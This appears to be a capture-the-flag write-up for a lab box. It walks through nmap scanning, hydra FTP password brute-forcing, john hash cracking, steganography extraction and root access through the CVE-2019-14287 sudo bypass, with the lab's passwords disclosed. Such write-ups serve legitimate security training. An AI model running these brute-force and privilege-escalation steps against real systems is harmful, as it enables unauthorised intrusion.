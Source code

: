 Target: 10.10.225.156

## Enumeration:

nmap
```bash
$ nmap -sc -sV 10.10.225.156
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-16 06:58 PDT
Nmap scan report for 10.10.225.156
Host is up (0.29s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ef:1f:5d:04:d4:77:95:06:60:72:ec:f0:58:f2:cc:07 (RSA)
|   256 5e:02:d1:9a:c4:e7:43:06:62:c1:9e:25:84:8a:e7:ea (ECDSA)
|_  256 2d:00:5c:b9:fd:a8:c8:d8:80:e3:92:4f:8b:4f:18:e2 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Annoucement
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

```


## Foothold:

burpsuite
intercept -> send to repeater > try User-Agent: A,B,C,...
```
GET /agent_C_attention.php HTTP/1.1
Host: 10.10.225.156
User-Agent: C
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1


```

```
HTTP/1.1 200 OK
Date: Fri, 16 Apr 2021 14:15:37 GMT
Server: Apache/2.4.29 (Ubuntu)
Vary: Accept-Encoding
Content-Length: 177
Connection: close
Content-Type: text/html; charset=UTF-8

Attention chris, <br><br>

Do you still remember our deal? Please tell agent J about the stuff ASAP. Also, change your god damn password, is weak! <br><br>

From,<br>
Agent R 


```

hydra
```bash
$ hydra -l chris -P /usr/share/wordlists/rockyou.txt 10.10.255.156 ftp
```

Loot:
chris:crystal

ftp
```bash
$ ftp 10.10.255.156
```

get To_agentJ.txt
```bash
$ cat To_agentJ.txt
Dear agent J,

All these alien like photos are fake! Agent R stored the real picture inside your directory. Your login password is somehow stored in the fake picture. It shouldn't be a problem for you.

From,
Agent C

```

get cutie.png 
```bash
$ binwalk -e cutie.png
$ cd _cutie.png.extracted 
$ zip2john 8702.zip > hash
$ john --wordlist=/usr/share/wordlists/rockyou.txt hash
> alien
$ 7z x 8702.zip
$ cat To_agentR.txt
Agent C,

We need to send the picture to 'QXJlYTUx' as soon as possible!

By,
Agent R

```

```bash
$ echo 'QXJlYTUx' | base64 -d
> Area51
```

get cute-alien.jpg 
```bash
$ steghide extract -sf cute-alien.jpg 
$ cat message.txt 
Hi james,

Glad you find this message. Your login password is hackerrules!

Don't ask me why the password look cheesy, ask agent R who set this password for you.

Your buddy,
chris

```

Loot:
james:hackerrules!


## Lateral Movement:

## Priv Escalation:

Login
```bash
$ ssh james@10.10.255.156
```

```bash
$ cat user.txt
<redacted>
```

google dorking
site:foxnews.com roswell


```bash
$ sudo -l
<snip>
User james may run the following commands on agent-sudo:
    (ALL, !root) /bin/bash
```

```bash
$ sudo bash
Sorry, user james is not allowed to execute '/bin/bash' as root on agent-sudo.
```

CVE-2019-14287
[Exploit Link](https://www.exploit-db.com/exploits/47502)

```bash
$ python3 47502.py
```

```bash
$ cat /root/root.txt
<redacted>
```
